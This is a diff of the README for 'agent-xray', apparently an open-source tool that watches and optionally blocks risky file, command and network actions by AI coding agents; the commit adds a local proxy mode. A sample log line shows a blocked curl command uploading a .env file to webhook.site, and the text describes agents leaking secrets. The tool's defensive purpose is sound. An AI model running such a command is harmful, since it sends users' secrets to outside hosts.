

Before and after one commit to asanbay/agent-xray, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; pictures changed too: docs/demo.gif (added); badges without logos; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -8,7 +8,7 @@
 ![deps](https://img.shields.io/badge/runtime%20deps-0-7aa2f7)
 [![license](https://img.shields.io/badge/license-MIT-8b98a9)](LICENSE)
 
-![agent-xray live demo](docs/demo.svg)
+![agent-xray live demo](docs/demo.gif)
 
 **Why this exists.** GitGuardian found **24,008 secrets** leaked in agent configs on public GitHub — 2,117 still working. On one real MacBook, agents had left three servers running for **26–51 days**, listening on all network interfaces. Nobody noticed. agent-xray is the guard: it watches what agents actually do — files, commands, network — logs everything, and (opt-in) blocks the dangerous parts.
 
@@ -19,7 +19,18 @@
 18:26:23  ✖ BLOCK  exec       curl -X POST -d @.env https://webhook.site/…  ← uploads a secret file
 ```
 
-> Status: **v0.6** — multi-agent (Claude Code, ZCode, Cursor), observe/guard modes, tamper seal, **sweep** (AI-agent leftovers), **audit** (one-command AI-safety score + HTML report), live 3D dashboard. Zero runtime dependencies. Node 18+.
+> Status: **v0.7** — multi-agent (Claude Code, ZCode, Cursor), **proxy mode** (domain-level visibility for ANY agent), observe/guard modes, tamper seal, sweep, audit, live 3D dashboard. Zero runtime dependencies. Node 18+.
+
+## Proxy: watch agents that have no hook API
+
+Codex CLI, Gemini CLI, Aider — anything that speaks HTTP can be watched through the local proxy:
+
+```bash
+agent-xray proxy                 # listens on 127.0.0.1:8080
+HTTPS_PROXY=http://127.0.0.1:8080 HTTP_PROXY=http://127.0.0.1:8080 codex
+```
+
+Every domain the agent touches is logged (session `proxy`) and shown on the dashboard. HTTPS is **tunneled, not decrypted** — hostnames only, never contents. In guard mode, warn-level and blocked hosts are refused with 403 at connect time.
 
 ## Audit: your computer's AI Safety Score in one command
 
````
Also changed, not shown: 7 other files.
